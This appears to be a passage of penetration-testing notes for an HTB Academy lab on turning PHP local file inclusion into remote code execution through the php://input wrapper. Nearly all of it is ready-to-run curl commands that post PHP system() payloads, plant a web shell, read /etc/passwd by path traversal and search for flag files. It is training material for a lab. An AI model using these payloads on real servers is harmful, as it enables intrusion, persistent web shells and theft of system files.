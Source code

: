 ### Input Wrapper Examples

**Basic POST RCE:**
```bash
# Send PHP code via POST data
curl -X POST --data '<?php system("id"); ?>' "http://target.com/index.php?page=php://input"

# Web shell via POST
curl -X POST --data '<?php system($_GET["cmd"]); ?>' "http://target.com/index.php?page=php://input&cmd=whoami"
```

**Advanced Input Wrapper Usage:**
```bash
# Multi-line PHP script
curl -X POST --data '<?php
if(isset($_GET["cmd"])) {
    echo "<pre>";
    system($_GET["cmd"]);
    echo "</pre>";
}
?>' "http://target.com/index.php?page=php://input&cmd=ls -la"
```

### HTB Academy Input Wrapper Lab

**Complete Exploitation Process:**
```bash
# Step 1: Test LFI vulnerability
curl "http://target.com/index.php?language=../../../../etc/passwd"

# Step 2: Verify php://input support
curl -X POST --data '<?php echo "PHP Input Works!"; ?>' "http://target.com/index.php?language=php://input"

# Step 3: Execute system commands
curl -X POST --data '<?php system("id"); ?>' "http://target.com/index.php?language=php://input"

# Step 4: Create interactive web shell
curl -X POST --data '<?php system($_GET["cmd"]); ?>' "http://target.com/index.php?language=php://input&cmd=uname -a"

# Step 5: Escalate and find flags
curl -X POST --data '<?php system($_GET["cmd"]); ?>' "http://target.com/index.php?language=php://input&cmd=find / -name flag.txt 2>/dev/null"
```

---

## Method 3: Expect Wrapper RCE

The `expect://` wrapper provides direct command execution without requiring PHP code.

